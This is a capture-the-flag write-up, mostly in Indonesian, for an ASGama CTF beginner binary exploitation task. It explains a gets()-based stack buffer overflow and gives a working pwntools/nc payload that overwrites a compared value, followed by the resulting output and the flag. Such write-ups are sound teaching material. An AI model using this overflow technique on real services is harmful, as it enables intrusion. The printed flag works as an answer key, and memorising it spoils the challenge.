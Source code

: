 # __ASGama CTF__ 
## _Buffer1_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary Exploitation | 50 | l0l

**Description:** 

> Buffer1

> nc asgama.web.id 40203
>
> [buf1](./buf1)

### buf1
```
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=66a2a0cfb02b03a6abf1e65146da2739e8b17bdd, not stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### buf1 Disassembly
![](disassembly.png)

Seperti yang terlihat di hasil disassembly, input kita disimpan di stack mulai dari address `ebp-0x8c` menggunakan fungsi gets (vulnerable terhadap buffer overflow). Setelah itu program membandingkan nilai pada alamat `ebp-0xc` dengan 0x13377331, apabila sama maka program memanggil `cat flag` dan menampilkan flag. Maka kita susun payload dengan mengirim sembarang karakter sebanyak 0x80 lalu kita kirim 0x13377331 dalam format little endian.

### Payload
`$ python -c "from pwn import p32; print 'A'*0x80+p32(0x13377331)" | nc asgama.web.id 40203`


### Result 
```
$ python -c "from pwn import p32; print 'A'*0x80+p32(0x13377331)" | nc asgama.web.id 40203
GamaCTF{BufF3rR__0vErf10W__EZ}
```

### Flag 
GamaCTF{BufF3rR__0vErf10W__EZ}